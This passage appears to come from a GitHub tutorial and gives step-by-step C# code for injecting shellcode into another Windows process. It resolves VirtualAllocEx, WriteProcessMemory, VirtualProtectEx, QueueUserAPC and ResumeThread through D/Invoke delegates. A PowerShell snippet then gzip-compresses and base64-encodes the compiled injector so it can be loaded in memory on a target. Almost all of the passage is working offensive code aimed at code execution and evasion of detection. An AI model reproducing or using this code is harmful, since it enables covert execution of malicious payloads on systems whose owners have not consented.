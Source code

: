 Invoke VirtualAllocEx through its delegate:
```csharp
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualAllocEx");
DELEGATES.VirtualAllocEx virAllEx = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.VirtualAllocEx)) as DELEGATES.VirtualAllocEx;
IntPtr allocret = virAllEx(procInfo.hProcess, IntPtr.Zero, (uint)sheocode.Length, 0x1000 | 0x2000, 0x04); //MEM_COMMIT | MEM_RESERVE; 0x04: RW
```

Invoke WriteProcessMemory through its delegate:
```csharp
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "WriteProcessMemory");
DELEGATES.WriteProcessMemory writeProcMem = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.WriteProcessMemory)) as DELEGATES.WriteProcessMemory;
writeProcMem(procInfo.hProcess, allocret, sheocode, (uint)sheocode.Length, out UIntPtr bytesWritten);
```

Invoke VirtualProtectEx through its delegate:
```csharp
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualProtectEx");
DELEGATES.VirtualProtectEx virProtEx = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.VirtualProtectEx)) as DELEGATES.VirtualProtectEx;
virProtEx(procInfo.hProcess, allocret, sheocode.Length, 0x20, out oldProtect); // 0x20: RX
```

Invoke QueueUserAPC through its delegate:
```csharp
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "QueueUserAPC");
DELEGATES.QueueUserAPC qUsrAPC = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.QueueUserAPC)) as DELEGATES.QueueUserAPC;
qUsrAPC(allocret, procInfo.hThread, IntPtr.Zero);
```

Invoke ResumeThread through its delegate:
```csharp
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "ResumeThread");
DELEGATES.ResumeThread resThrd = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.ResumeThread)) as DELEGATES.ResumeThread;
resThrd(procInfo.hThread);
```

Build our .NET assembly as a x64 executable.
To load our assembly in the target's memory, let's gzip compress and then base64 encode the assembly's byte stream, output it to `compressedEncodedBytes.txt`.
```powershell
$bytes = [System.IO.File]::ReadAllBytes("$(pwd)\injection.exe")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($outStream, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$outStream.Close()
[byte[]] $outBytes = $outStream.ToArray()
$b64Zipped = [System.Convert]::ToBase64String($outBytes)
$b64Zipped | Out-File -NoNewLine -Encoding ASCII .\compressedEncodedBytes.txt'
```
